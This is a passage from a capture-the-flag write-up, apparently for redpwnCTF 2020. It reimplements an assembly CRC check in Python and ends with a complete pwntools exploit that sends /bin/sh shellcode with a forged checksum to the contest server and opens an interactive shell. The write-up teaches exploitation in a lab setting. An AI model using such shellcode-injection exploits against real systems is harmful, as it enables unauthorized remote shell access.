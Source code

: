 ```python
edi = 0
for char in shellcode:
    itera = 7 #mov cl, 7
    while itera >= 0: #cmp cl, 0
        r9 = 0 #xor r9, r9
        edi2 = edi << 1 #shl edi, 1
        if(edi & 0x80000000): #cmovb r9, rax
            r9 = 0x80000011 #cmovb r9, rax
        r10b_shr = char >> itera #shr r10b, cl
        r10b_and = r10b_shr & 1 #and r10b, 1
        edi_xor = (r10b_and ^ edi2) & 0xFF #xor dil, r10b
        edi2 = (edi2 & 0xFFFFFF00) | edi_xor #xor dil, r10b
        itera = itera - 1 #dec cl
```

And the last thing we are missing is the `xor` against `r9`, which can be easily made as shown below. This will keep `edi` equal to the CRC while `edi2` destroys itself to generate the next cycle.

```python
edi = 0
for char in shellcode:
    itera = 7 #mov cl, 7
    while itera >= 0: #cmp cl, 0
        r9 = 0 #xor r9, r9
        edi2 = edi << 1 #shl edi, 1
        if(edi & 0x80000000): #cmovb r9, rax
            r9 = 0x80000011 #cmovb r9, rax
        r10b_shr = char >> itera #shr r10b, cl
        r10b_and = r10b_shr & 1 #and r10b, 1
        edi_xor = (r10b_and ^ edi2) & 0xFF #xor dil, r10b
        edi2 = (edi2 & 0xFFFFFF00) | edi_xor #xor dil, r10b
        edi = edi2 ^ r9 #xor rdi, r9
        itera = itera - 1 #dec cl
```

The full script is shown below and us getting the flag with it :)

```python
from pwn import *
import binascii

context.arch = "x86_64"
#context.log_level = 'debug'
shellcode = asm(shellcraft.sh())

edi = 0
for char in shellcode:
    itera = 7 #mov cl, 7
    while itera >= 0: #cmp cl, 0
        r9 = 0 #xor r9, r9
        edi2 = edi << 1 #shl edi, 1
        if(edi & 0x80000000): #cmovb r9, rax
            r9 = 0x80000011 #cmovb r9, rax
        r10b_shr = char >> itera #shr r10b, cl
        r10b_and = r10b_shr & 1 #and r10b, 1
        edi_xor = (r10b_and ^ edi2) & 0xFF #xor dil, r10b
        edi2 = (edi2 & 0xFFFFFF00) | edi_xor #xor dil, r10b
        edi = edi2 ^ r9 #xor rdi, r9
        itera = itera - 1 #dec cl


#p = process("./nii")
p = remote("2020.redpwnc.tf", 31215)
p.sendline(binascii.hexlify((b"NIIv0.1:MaroCart"+p32(edi)+bytes(shellcode))).upper())
p.interactive()
```
